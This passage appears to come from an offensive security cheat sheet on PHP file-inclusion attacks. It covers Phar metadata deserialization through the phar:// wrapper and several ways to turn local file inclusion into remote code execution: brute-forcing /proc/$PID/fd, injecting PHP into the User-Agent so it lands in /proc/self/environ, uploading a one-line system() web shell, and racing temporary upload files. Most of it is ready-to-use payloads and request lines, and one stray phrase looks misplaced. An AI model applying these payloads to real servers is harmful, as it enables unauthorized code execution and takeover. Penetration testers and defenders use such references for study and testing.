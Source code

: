 If a file operation is now performed on our existing Phar file via the phar:// wrapper, then its serialized meta data is unserialized. If this application has a class named AnyClass and it has the magic method \_\_destruct() or \_\_wakeup() defined, then those methods are automatically invoked

```
class AnyClass {
    function __destruct() {
        echo $this->data;
    }
}
// output: rips
include('phar://test.phar');
```

NOTE: The unserialize is triggered for the phar:// wrapper in any file operation, `file_exists` and many more.

## **LFI to RCE via /proc/\*/fd**

1. Upload a lot of shells (for example : 100)
2. Include [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD), with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)

## **LFI to RCE via /proc/self/environ**

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

## **LFI to RCE via upload**

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata for the pictures/doc/pdf

## **LFI to RCE via upload (race)**

Worlds Quitest Let's Play"

* Upload a file and trigger a self-inclusion.
* Repeat 1 a shitload of time to:
* increase our odds of winning the race
* increase our guessing odds
* Bruteforce the inclusion of /tmp/\[0-9a-zA-Z]{6}
* Enjoy our shell.
